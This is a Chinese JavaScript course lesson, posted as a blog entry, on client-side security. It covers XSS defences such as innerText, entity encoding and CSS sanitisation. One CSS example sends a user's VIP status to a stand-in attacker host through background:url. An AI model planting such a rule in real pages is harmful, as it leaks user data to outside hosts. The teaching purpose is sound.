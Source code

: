 ```yaml
---
layout: post
title:  JavaScript进阶实战课-31安全：JS代码和程序都需要注意哪些安全问题？
date:   2015-01-01 23:20:27 +0800
categories: [JavaScript进阶实战课]
tags: [JavaScript进阶实战课, other]
published: true
---
```




31 安全：JS代码和程序都需要注意哪些安全问题？
你好，我是石川。

对于大多Web应用来说，我们的程序所提供的功能是对外公开的，这给我们带来了流量的同时，也给我们的系统带来了风险。而且越是关注度高的应用，就越有可能遭到攻击，所以安全是任何应用都要重视的一个话题。

那么今天，我们来看一下在JavaScript中需要做的安全考虑。这里就包含了跨站脚本攻击（XSS）、跨站请求伪造（CSRF）和XXE漏洞。下面，我们来一一看一下这些问题，总结下相关的安全解决方法。

## 跨站脚本攻击

跨站脚本攻击是一种非常常见的攻击。顾名思义，它指的就是通过来自跨网站的脚本发起的攻击。为了降低出现XSS漏洞的可能性，有一条重要的开发原则是我们**应该禁止任何用户创建的未经过处理的数据传递到DOM中**。而当用户创建的数据必须传递到DOM中时，应该尽量以字符串的形式传递。

### 类字符串检查

我们可以通过多种方式在客户端和服务器上对数据进行检查。其中一种方法是利用JavaScript中的内置函数

JSON.parse()
，它可以将文本转换为JSON对象，因此将数字和字符串与转换后的内容做对比。如果一致，就可以通过检查，但函数等复杂的数据类型的对比是会失败的，因为它们不符合与JSON兼容的格式。
var isStringLike = function(val) { try { return JSON.stringify(JSON.parse(val)) === val; } catch (e) { console.log('not string-like'); } };

### 字符串净化

另外需要注意的是，字符串/类字符串虽然不是DOM本身，但仍然可以被解释或转换为DOM。为了避免这种情况，我们必须确保DOM会将其直译为字符串或类字符串，而不作转换。

因此在使用 DOM API 时，需要注意的是，**任何将文本转换为DOM或脚本的行为都是潜在的XSS 攻击**。我们应该尽量避免使用 innerHTML、DOMParser、Blob 和 SVG 这些接口。以 innerHTML 为例，我们最好使用 innerText 而不是 innerHTML 来注入 DOM，因为innerText 会做净化处理，将任何看起来像HTML标签的内容表示为字符串。
var userInput = '<strong>hello, world!</strong>'; var div = document.querySelector('/#userComment'); div.innerText = userInput; // 这里的标签被解释成字符串

### HTML实体编码

另外一种防御措施是，对用户提供的数据中存在的所有HTML标记执行HTML实体转义。实体编码允许某些特定的字符在浏览器中显示，但不能将其解释为JavaScript来执行。比如标签<>对应的编码就是 & + lt; 和 & + gt;。

### CSS净化

CSS 的净化包括了净化任何 HTTP 相关的 CSS 属性，或者只允许用户更改指定的 CSS 字段，再或者干脆禁止用户上传 CSS 等。因为相关的属性，比如

background:url
，可能会导致黑客远程改变页面的展示。
/#bankMember[status="vip"] { background:url("https://www.hacker.com/incomes?status=vip"); }
